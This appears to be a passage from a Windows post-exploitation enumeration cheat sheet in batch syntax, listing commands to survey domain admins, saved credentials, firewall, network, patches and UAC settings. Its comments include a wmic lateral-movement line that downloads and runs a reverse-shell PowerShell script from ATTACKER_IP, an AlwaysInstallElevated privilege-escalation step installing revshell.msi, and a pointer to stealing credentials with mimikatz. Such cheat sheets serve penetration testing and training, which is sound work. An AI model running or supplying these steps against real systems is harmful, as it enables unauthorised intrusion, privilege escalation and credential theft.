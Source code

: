 ```bat
net group /domain "Domain Admins"

:: List saved credentials
cmdkey /list
:: if found, might be able to pivot with:
:: wmic /node:VICTIM_IP process call create "cmd /c powershell -nop -noni -exec bypass -w hidden -c \"IEX((new-object net.webclient).downloadstring('http://ATTACKER_IP/rsh.ps1'))\""
:: or steal creds with mimikatz

:: Firewall
netsh firewall show state
netsh firewall show config

:: Network
ipconfig /all
route print
arp -a
netstat -ano

:: Hard disks
fsutil fsinfo drives

:: User environment
set

:: How well patched is the system?
wmic qfe get Caption,Description,HotFixID,InstalledOn

:: If both registry keys are set with DWORD values of 1, low-priv users can install *.msi files as NT AUTHORITY\SYSTEM
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
:: to pwn: msiexec /quiet /qn /i C:\Users\Public\revshell.msi

:: Does it have AutoRuns with weak permissions?
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

:: is UAC enabled? EnableLUA = 0x1 means enabled.
:: ConsentPromptBehaviorAdmin = 0x5 is default, requires UAC bypass with MS-signed binary using autoelevate
:: Bad = ConsentPrompt == 2 && SecureDesktopPrompt == 1 (UAC is set to 'Always Notify')
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v PromptOnSecureDesktop

:: Check the powershell version
powershell $PSVersionTable.PSVersion

